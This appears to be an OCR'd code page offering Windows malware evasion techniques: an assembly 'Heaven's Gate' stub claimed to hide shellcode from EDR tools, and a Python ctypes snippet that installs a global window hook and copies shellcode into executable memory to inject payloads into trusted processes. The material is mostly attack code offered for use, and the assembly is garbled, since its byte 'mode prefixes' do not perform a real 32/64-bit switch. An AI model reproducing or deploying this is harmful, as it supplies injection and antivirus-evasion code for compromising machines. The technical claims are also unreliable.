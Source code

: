 
1️⃣ Heaven’s Gate (x64 ↔ x86 Process Switching to Hide Execution)
2️⃣ Callback Hook Hijacking (Injecting Payloads into Legitimate Processes)
3️⃣ Kernel Callback Removal (Direct Kernel Manipulation to Disable AV Hooks)


1️⃣ Heaven’s Gate (x64 ↔ x86 Process Switching to Hide Execution)

💡 This technique allows a 64-bit process to execute 32-bit shellcode, bypassing security tools that focus on native architecture

Implementation (x64 → x86 Switch)
```Assembly
section .text
global _start

_start:
    ; Switch to 32-bit mode (Heaven's Gate)
    db 0x65, 0x67, 0x66, 0x60  ; 32-bit mode prefix
    call switch_32

switch_32:
    ; Here, we execute 32-bit shellcode
    ; Shellcode should be injected before execution
    db 0xCC  ; INT 3 (Debugger Breakpoint, replace with shellcode)
    
    ; Return to 64-bit mode
    db 0x65, 0x67, 0x66, 0x61  ; Restore 64-bit execution
    ret
```
✅ Hides execution by shifting between CPU modes
✅ Bypasses EDR tools that monitor 64-bit API calls
✅ Stealthy execution for x86 shellcode inside a 64-bit process


2️⃣ Callback Hook Hijacking (Injecting Payloads into Legitimate Processes)

💡 Hooks legitimate Windows API callbacks to inject malicious payloads into trusted processes

Implementation
```Python
import ctypes
from ctypes import wintypes

# Windows API definitions
kernel32 = ctypes.windll.kernel32
user32 = ctypes.windll.user32

# Define callback function prototype
HOOKPROC = ctypes.WINFUNCTYPE(ctypes.c_int, ctypes.c_int, wintypes.WPARAM, wintypes.LPARAM)

# Function to inject code via callback hijacking
def callback_hook(nCode, wParam, lParam):
    print("[*] Callback Hook Triggered")

    # Inject payload here (replace with shellcode execution)
    shellcode = b"\x90\x90\x90\x90..."  # Replace with actual payload

    # Allocate memory and execute
    addr = kernel32.VirtualAlloc(None, len(shellcode), 0x3000, 0x40)
    ctypes.memmove(addr, shellcode, len(shellcode))

    return user32.CallNextHookEx(None, nCode, wParam, lParam)

# Set hook on window message callbacks
WH_CALLWNDPROC = 4
hook_id = user32.SetWindowsHookExW(WH_CALLWNDPROC, HOOKPROC(callback_hook), None, 0)

```
